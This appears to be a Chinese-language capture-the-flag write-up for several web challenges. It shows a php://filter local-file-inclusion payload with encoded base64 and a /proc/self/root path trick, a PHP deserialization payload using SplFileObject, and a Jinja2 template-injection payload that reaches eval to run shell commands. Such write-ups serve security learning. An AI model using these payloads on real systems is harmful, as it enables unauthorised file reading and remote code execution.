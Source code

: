 ## ez_include

GET `/?key=json_last_error` 返回0 弱类型比较

POST

```
file=php://filter/convert.%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## newnew

考点应该是PHP原生类，根据搜索得到的结果尝试 DirectoryIterator、FilesystemIterator、SplFileObject、GlobIterator得到payload：`O:1:"A":3:{s:1:"a";s:13:"SplFileObject";s:1:"b";s:12:"/fl1aaaaaaa9";}`，构造方法如下：

```php
<?php

class A
{
    public $a;
    public $b;

    public function __destruct()
    {
        echo new $this->a($this->b);  
    }
}

$exp=new A();
$exp->a='SplFileObject'; // DirectoryIterator FilesystemIterator SplFileObject  GlobIterator ReflectionClass ReflectionMethod
$exp->b='/fl1aaaaaaa9';   // glob:///*   fl1aaaaaaa9
// echo new $exp->a($exp->b);
echo(serialize($exp));
```

## easy_java

不会~

## easy_flask

ssti注入漏洞，payload如下

```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("cat flag").read()') }} # ls 查看得到当前为 / 目录且flag文件在此处
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
